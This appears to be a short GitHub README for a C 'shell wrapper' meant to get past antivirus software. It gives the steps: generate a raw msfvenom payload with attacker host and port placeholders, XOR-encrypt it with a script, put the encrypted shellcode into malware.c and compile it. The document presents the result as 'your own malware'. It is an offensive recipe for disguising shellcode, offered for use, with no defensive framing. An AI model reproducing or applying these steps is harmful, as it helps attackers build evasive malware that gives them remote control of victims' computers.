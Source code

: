 # AV_bypass_shellwrapper
Shell wrapper script written in C language to bypass AVs

* To  create you own malware create a raw msfvenom payload
```
msfvenom -p <payload_type> LHOST=<lhost> LPORT=<lport> -f raw -o shellcode.bin
````

* XOR encrypt the payload
```
xor.py shellcode.bin
```

* Add the Encrpted shellcode with the variable c inside the malware.c 

* Compile the code using Visual Studio IDE
